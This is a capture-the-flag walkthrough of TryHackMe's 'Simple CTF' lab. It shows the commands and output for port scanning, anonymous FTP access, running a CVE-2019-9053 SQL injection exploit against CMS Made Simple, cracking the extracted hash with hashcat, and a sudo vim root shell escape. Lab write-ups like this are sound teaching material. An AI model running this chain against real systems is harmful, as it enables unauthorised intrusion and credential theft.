

# Simple CTF

---

#### Platform  -  TryHackMe
Difficulty    -  Easy
Date          -  March 30, 2026
IP            -  10.67.152.27
OS            -  Linux

---

Simple CTF is an easy-difficulty TryHackMe challenge that requires knowledge of port scanning with Nmap, web fuzzing, and Linux privilege escalation. The main attack vector is **CVE-2019-9053**, a blind SQL Injection vulnerability present in CMS Made Simple.

The approach taken to solve this challenge followed these steps:

1. Port Enumeration
    1. Service Analysis
2. Web Enumeration (Fuzzing)
    1. Results Analysis and vulnerability research
3. Exploitation - CVE-2019-9053
4. Privilege Escalation

## Enumeration

### NMAP

```bash
❯ sudo nmap -sV 10.67.152.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-25 22:17 CST
Nmap scan report for 10.67.152.27
Host is up (0.10s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.01 seconds
```

After the port scan, three services are worth highlighting:

- **21 - FTP** (vsftpd 3.0.3)
    - Worth checking for anonymous access, as vsftpd 3.0.3 often has it enabled by default in practice environments.
- **80 - HTTP** (Apache httpd 2.4.18)
    - An active web server that deserves a detailed inspection for hidden directories, sensitive files, or known vulnerabilities in this version.
- **2222 - SSH** (OpenSSH 7.2p2)
    - Running on a non-standard port (default is 22), suggesting a custom configuration. This will be useful once valid credentials are obtained.

#### FTP

```bash
❯ ftp 10.67.152.27
Connected to 10.67.152.27.
220 (vsFTPd 3.0.3)
Name (10.67.152.27:parrot): ftp
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00151 seconds (107 kbytes/s)
ftp>
```

Inspecting the FTP service confirms that anonymous access is enabled. We log in using `ftp` as the username with no password. Inside we find a directory called `pub` which contains a file named `ForMitch.txt`, downloaded with `get` for further analysis.

The file contains the following note:

```
Dammit man... you're the worst dev i've seen. You set the same pass
for the system user, and the password is so weak... i cracked it in
seconds. Gosh... what a mess!
```

This gives us two key pieces of information:

- The user **Mitch** reuses the same password across FTP and the system.
- The password is weak, meaning it is likely found in a wordlist such as `rockyou.txt`.

#### HTTP



Inspecting port 80 reveals only the default Apache page, which contains no visible relevant information. However, this does not rule out the existence of hidden directories, so the next step is directory enumeration.

### FFUF

```bash
❯ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://10.146.176.32/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.146.176.32/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

simple                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 98ms]
:: Progress: [20000/20000] :: Job [1/1] :: 402 req/sec :: Duration: [0:00:50] :: Errors: 0 ::
```

Running ffuf for directory enumeration reveals the existence of the `/simple` directory, which is worth inspecting as it may contain an application or administration panel.


Inspecting the `/simple` directory reveals a **CMS Made Simple version 2.2.8**. This allows us to identify it as vulnerable to **SQL Injection (CVE-2019-9053)**, a known vulnerability affecting all versions prior to 2.2.10 that allows extracting information from the database such as usernames and passwords.

### CVE-2019-9053

To exploit the vulnerability, we use a public script that automates the SQL Injection attack against the CMS:

```bash
python3 exploit.py -u http://10.146.176.32/simple --crack -w /usr/share/wordlists/rockyou.txt
```

The script extracts information from the database and automatically cracks the hash using `rockyou.txt`, returning the following credentials:

```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

This confirms what `ForMitch.txt` anticipated — user **mitch** was using a weak password (`secret`) that was cracked in seconds. With these credentials, the next step is connecting via **SSH** on port **2222**.

#### What is a Salt?

When a system stores passwords, it does not store them in plain text but as a **hash**. The problem is that if two users share the same password, they will produce the same hash — which is predictable.

A **salt** is a random string that is **appended to the password before hashing**, making each hash unique even when passwords are identical.

Although the exploit cracks the password automatically, it is also possible to do it manually. The SQL Injection returns the password hash along with its **salt** — a random string that the CMS appends to the password before hashing to harden against dictionary attacks. The algorithm used is **MD5 with salt** (`md5($salt:$pass)`), which corresponds to **mode 20** in hashcat.

To crack it manually, save the hash in `hash:salt` format and run hashcat against `rockyou.txt`:

```bash
echo "0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2" > hash.txt
hashcat -m 20 hash.txt /usr/share/wordlists/rockyou.txt
```

The result confirms the password is `secret`, a word common enough that `rockyou.txt` finds it in seconds.

## Privilege Escalation

Once inside the system as **mitch**, we run `sudo -l` to check which commands can be executed as root without a password:

```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

We find that **vim** can be executed as root without requiring a password. Since vim allows running operating system commands from within, we exploit this to escalate privileges:

```bash
$ sudo vim -c ':!/bin/bash'
```

This opens vim as root and immediately executes `/bin/bash`, granting us a root shell. This technique is documented on **GTFOBins**, a repository that catalogs Unix binaries that can be abused for privilege escalation.
